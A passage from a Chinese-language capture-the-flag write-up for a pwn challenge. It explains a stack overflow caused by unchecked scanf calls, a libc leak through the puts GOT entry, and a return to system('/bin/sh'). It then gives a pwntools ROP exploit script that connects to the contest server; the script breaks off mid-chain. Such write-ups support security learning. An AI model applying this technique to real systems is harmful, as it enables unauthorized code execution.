 ```c
  return 0;
}
```

else 分支的两个 scanf 都没有做长度检查，也就是说都可以溢出。
为了轻松，还是选择从栈底部的变量注入。

既然没有 backdoor 函数了，我们只能自己调用 system 了。

因为 os 每次加载动态库时都会放在不同的地址，这题需要先泄漏 libc 的基地址，然后算出 system 函数的地址，再~~干坏事~~调用。

泄漏 libc 地址可以通过打印 got 里任意函数的地址，再减去 libc 里该函数的相对地址。

那又怎么打印地址呢？
原来想 syscall 调 write 的，一看 gadget 不够，只能想办法利用程序里有的函数了。

x64 第一个参数是通过 rdi 寄存器传的，但是没有 pop rdi gadget 怎么办呢。
偶然发现，程序调用 puts 函数前的 rdi 的值是从 rbx 拿的，而我们有一个 pop rbx gadget，那就好办了，把想传的参数写入 rbx 就好了。

有了 libc 的基地址，也就可以算出 libc 中 /bin/sh 的实际地址，从而调用 system("/bin/sh") 了。

最后的 exp：

```python
from pwn import *
context.clear(arch='amd64')
elf = ELF('./challenge2')
libc = ELF('./libc.so.6')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
rop = ROP(elf)

rop.raw('A' * 112)
# ret
rop.raw(p64(0x40101a))

# pop rbx ; pop rbp ; pop r12 ; ret
rop.call(0x401300)
rop.raw(p64(elf.got['puts']))
rop.raw(p64(elf.got['puts']))
rop.raw(p64(elf.got['puts']))
# mov rdi, rbx; puts
rop.call(0x4012e3) 

#p = process('./challenge2')
p = remote('prob10.geekgame.pku.edu.cn', 10011)
p.sendline(b'TOKEN')
p.recvuntil(b'characters')
p.sendline(b'1')
p.recvuntil(b'flag: ')

p.recvuntil(b'it?')
p.sendline(rop.chain())
p.recvuntil(b'again')
p.sendline(b'1')

p.recvuntil(b'go0d_j0b_und_go0d_luck~:)\n')
leaked_puts = p.recvline().strip()

libc.address = int.from_bytes(leaked_puts, 'little') - libc.symbols['puts']
log.success(f'libc addr={hex(libc.address)}')
sh_addr = next(libc.search(b'/bin/sh'))

rop2 = ROP(elf)
rop2.raw('A' * 112)
# ret
rop2.raw(p64(0x40101a))
# nop ; ret
```